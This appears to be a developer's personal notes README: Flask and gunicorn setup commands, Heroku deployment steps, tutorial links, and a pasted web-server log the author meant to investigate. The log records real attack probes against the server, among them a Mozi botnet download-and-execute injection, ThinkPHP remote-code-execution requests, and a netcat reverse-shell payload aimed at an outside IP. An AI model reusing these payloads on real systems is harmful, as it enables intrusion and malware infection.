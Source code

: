 # Notes

## Contributing
- Fork it.
- Create a branch (git checkout -b my_malice)
- Commit your changes (git commit -am "Added Something Cool")
- Push to the branch (git push origin my_malice)
- Open a Pull Request
- Wait for me to figure out what the heck a pull request is...

## Flash 
-from flask import flask

pip3 install flask
pip3 install flask-cors
sudo apt-get update && sudo apt-get upgrade
sudo apt-get install python3.10
apt install python3-pip
apt install python3-flask
pip3 install -r requirements.txt
export FLASK_APP=app.py
export FLASK_ENV=development
flask run -h 0.0.0.0 -p 8080
flask run

## Cheat cheat
- curl cht.sh/python/flask


## Live server
from liveserver import LiveServer
ls = LiveServer(app)
    ls.run("0.0.0.0", 8080)

## uvicorn
uvicorn app:app --reload --port 80 --host 0.0.0.0

gunicorn -w 4 --bind 0.0.0.0:8000 wsgi:app


## Videos:
https://github.com/jakerieger/FlaskIntroduction/blob/master/templates/index.html


## Heroku
-$ heroku login
$ cd my-project/

$ git init OR - $ heroku git:remote -a maks-todo-api
$ heroku git:remote -a maks-todo-api

$ git add .
$ git commit -am "make it better"
$ git push heroku master

git branch -a
git push heroku main


To switch the default branch used to deploy apps from master to main, first create a new branch locally:

git checkout -b main
Next, delete the old default branch locally:

git branch -D master
From there, the local environment only knows about the main branch.

Reset the GIT repository hosted on the Heroku Platform using the heroku-reset command from the heroku-repo CLI plugin. Doing so will not impact the running application. (Note: Please communicate this change with your team. If you are working with other developers who are not aware of the reset, they might push to "master" which will overwrite the reset).

Re-deploy the application using the new default branch:

git push heroku main

todo/update/add/delete- Jinja
https://www.youtube.com/watch?v=yKHJsLUENl0
https://github.com/python-engineer/flask-todo/blob/master/templates/base.html

todo/update/add/delte/status/ jinja/some JS - most deep
https://github.com/a2975667/flask-gcp-mysql-demo
https://tichung.com/blog/2021/20200323_flask/

todo/update/
https://www.youtube.com/watch?v=Z1RJmh_OqeA

blog/users
https://www.youtube.com/watch?v=74NW-84BqbA&t=1818s

Vidoes/likes/views
https://www.youtube.com/watch?v=GMppyAPbLYk&t=253s


investigate from new TODO API Server
71.215.97.89 - - [13/May/2022 12:10:58] "GET /loadsavedtodo HTTP/1.1" 200 -
112.220.89.114 - - [13/May/2022 12:26:43] code 400, message Bad HTTP/0.9 request type ('27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$')
112.220.89.114 - - [13/May/2022 12:26:43] "27;wget%20http://%s:%d/Mozi.m%20-O%20->%20/tmp/Mozi.m;chmod%20777%20/tmp/Mozi.m;/tmp/Mozi.m%20dlink.mips%27$ HTTP/1.0" HTTPStatus.BAD_REQUEST -



ode 400, message Bad request version ('´\x10r\x88CÓó\x9eU´)Ó(¬=\x8a¼\xad|Û\x9d¸k\x14\x95¸m_¥\x17EÑ\x00b\x13\x02\x13\x03\x13\x01À,À0À+À/Ì©Ì¨\x00£\x00\x9f\x00¢\x00\x9eÌªÀ¯À\xadÀ$À(À')                                                                       109.237.103.9 - - [17/May/2022 02:57:34] "D@                                                                                                  ®®¶CÓó¼­|Û¸m_¥EÑbÀ,À0À+À/Ì©Ì¨£" HTTPStatus.BAD_REQUEST
 -                                                                                                193.106.191.48 - - [17/May/2022 03:17:47] "GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP21 HTTP/1.1" 404 -                    193.106.191.48 - - [17/May/2022 03:58:35] "GET /?a=fetch&content=<php>die(@md5(HelloThinkCMF))</php> HTTP/1.1" 200 -                                                                                192.241.213.149 - - [17/May/2022 04:15:16] "GET / HTTP/1.1" 200 -                                 185.180.143.8 - - [17/May/2022 04:21:01] "GET / HTTP/1.1" 200 -                                   38.106.120.198 - - [17/May/2022 04:21:35] "GET / HTTP/1.1" 200 -                                  205.210.31.137 - - [17/May/2022 04:43:53] code 400, message Bad request version ('À(À$À\x14À')    205.210.31.137 - - [17/May/2022 04:43:53] "ÊÆ-*@máY[l7Zðáå«,÷3ÂÔDà}íªÖsÕßhÌÌÀ/À+À0À,ÀÀÀ'À#ÀÀ    À(À$ÀÀ" HTTPStatus.BAD_REQUEST -                                                                    89.104.110.102 - - [17/May/2022 04:53:19] "GET / HTTP/1.1" 200 -                                  176.53.216.46 - - [17/May/2022 04:53:20] "GET /favicon.ico HTTP/1.1" 404 -                        94.102.61.10 - - [17/May/2022 04:59:45] "GET / HTTP/1.1" 200 -                                    193.106.191.48 - - [17/May/2022 05:00:28] "GET /?XDEBUG_SESSION_START=phpstorm HTTP/1.1" 200 -    45.148.10.81 - - [17/May/2022 05:51:08] "GET /incl/image_test.shtml?camnbr=%3c!--%23exec%20cmd=%22mkfifo%20/tmp/s;nc%20-w%205%20193.124.7.9%2031337%200%3C/tmp/s|/bin/sh%3E/tmp/s%202%3E/tmp/s;rm%20/tmp/s%22%20--%3e HTTP/1.0" 404 -                                                                 193.106.191.48 - - [17/May/2022 05:56:39] "GET /console/ HTTP/1.1" 404 -                          193.106.191.48 - - [17/May/2022 06:06:29] "POST /Autodiscover/Autodiscover.xml HTTP/1.1" 404 




 changki.com